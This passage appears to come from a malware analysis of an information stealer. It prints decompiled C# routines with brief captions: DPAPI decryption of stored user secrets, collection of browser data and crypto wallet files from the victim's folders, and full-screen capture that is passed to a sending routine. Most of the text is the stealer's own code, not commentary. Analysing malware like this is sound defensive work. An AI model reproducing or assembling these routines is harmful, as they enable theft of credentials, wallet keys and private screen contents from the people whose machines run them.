 ```
                decryptedData = ProtectedData.Unprotect(dataToDecrypt, null, DataProtectionScope.CurrentUser);
            }
        }
    }
    catch
    {
    }
    return decryptedData;
}
```

Targets sensitive data from widely used software, including crypto wallets and browsers.

```
private static int smethod_36(string userFolder)
{
    string localAppData = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData);
    Class2.Class3 dataCollector = new Class2.Class3(Path.Combine(userFolder, "BrowserData"), "Browser_", true);

    smethod_0<Class2.Class3>(dataCollector.string_1, "*", smethod_13<Class2.Class3>, dataCollector, 999);

    dataCollector.string_1 = Path.Combine(userFolder, "Wallets");
    dataCollector.string_0 = "Wallet_";
    smethod_0<Class2.Class3>(dataCollector.string_1, "*", smethod_13<Class2.Class3>, dataCollector, 999);
    
    ...
    
    return dataCollector.int_0;
}
```

Captures screenshots of the victim's screen.

```
private static void smethod_37()
{
    MemoryStream screenshotStream = new MemoryStream();
    Graphics graphics = Graphics.FromHwnd(IntPtr.Zero);
    IntPtr screenDevice = graphics.GetHdc();
    int width = GetDeviceCaps(screenDevice, 118);
    int height = GetDeviceCaps(screenDevice, 117);
    graphics.ReleaseHdc(screenDevice);

    using (Bitmap bitmap = new Bitmap(width, height))
    {
        using (Graphics screenCapture = Graphics.FromImage(bitmap))
        {
            screenCapture.CopyFromScreen(Point.Empty, Point.Empty, bitmap.Size);
        }
        bitmap.Save(screenshotStream, ImageFormat.Jpeg);
    }
    smethod_4(1, screenshotStream.GetBuffer(), Convert.ToInt32(screenshotStream.Length), "screenshot.jpg");
}
```
